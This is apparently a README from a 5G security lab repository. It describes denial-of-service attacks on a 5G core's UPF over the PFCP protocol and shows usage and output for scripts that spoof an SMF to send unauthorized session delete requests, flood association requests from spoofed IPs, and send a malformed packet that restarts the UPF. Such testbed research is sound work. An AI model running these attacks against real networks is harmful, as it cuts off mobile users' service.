

# PFCP Based DOS Attacks

These attacks are based on but not exactly the same as those of todo (cite pfcp paper) however instead of taking over the SMF we will just spoof an IP address and act as a second UPF that connects and then commits the unauthorized PFCP based attacks.

These attack work from either the UE or CORE vm you just need the UPF ip address. You only need to not use the same IP as the ligitimate SMF if you don't have the ability to stop the real SMF. Also you need to run and have scapy installed with root provalages to use the functionalities needed.

## Unauthorized PFCP Session Delete Request

Here we connect to a or multiple UPFs and send unauothrized PFCP session delete requests. First we send an association request and then either flood SEIDs or target a specific SEID. Below you can see the standard use. 

```console
user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/DOS/PFCP$ sudo python3 delete_pfcp_session.py -h
sudo python3 delete_pfcp_session.py -s <source_ip> -d <destination_ip> -t <target seid (optional else will flood)> -f <flood range>

user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/DOS/PFCP$ sudo python3 delete_pfcp_session.py -s 10.0.14.10  -d 10.0.17.1 -t 3 #targeting the SEID on upf 10.0.17.1

.
Sent 1 packets.
Sending association request to UPF at:  10.0.17.1
.
Sent 1 packets.
Sending session delete request for SEID:  3  To upf:  10.0.17.1

user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/DOS/PFCP$ sudo python3 delete_pfcp_session.py -s 10.0.14.10  -d 10.0.17.1,10.0.21.1 -f 0,3 #Flood seid 0-3 to both ips 10.0.17.1 and 10.0.21.1

.
Sent 1 packets.
Sending association request to UPF at:  10.0.17.1
.
Sent 1 packets.
Sending association request to UPF at:  10.0.21.1
.
Sent 1 packets.
Sending session delete request for SEID:  0  To upf:  10.0.17.1
.
Sent 1 packets.
Sending session delete request for SEID:  0  To upf:  10.0.21.1
.
Sent 1 packets.
Sending session delete request for SEID:  1  To upf:  10.0.17.1
.
Sent 1 packets.
Sending session delete request for SEID:  1  To upf:  10.0.21.1
.
Sent 1 packets.
Sending session delete request for SEID:  2  To upf:  10.0.17.1
.
Sent 1 packets.
Sending session delete request for SEID:  2  To upf:  10.0.21.1

```

TODO redo above gif, before i fixed the bug where i didnt pass seid and alwasy sent seid =1


## Flood Associate DOS

Another even simpler attack is to simply flood with association requests from different spoofed ips.

```console
user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/DOS/PFCP$ sudo python3 flood_associate.py -d <target IP>
```


## Malformed Packet DOS - todo check if spoof real smf ip works

While investigating the other PFCP Dos attacks we found a malformed packet that leads to the upf service restarting and losing all UE data associated, thusly blocking all UE traffic.

```console
user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/DOS/PFCP$ sudo python3 malformed_modify_pfcp_session.py -d <target IP>
```


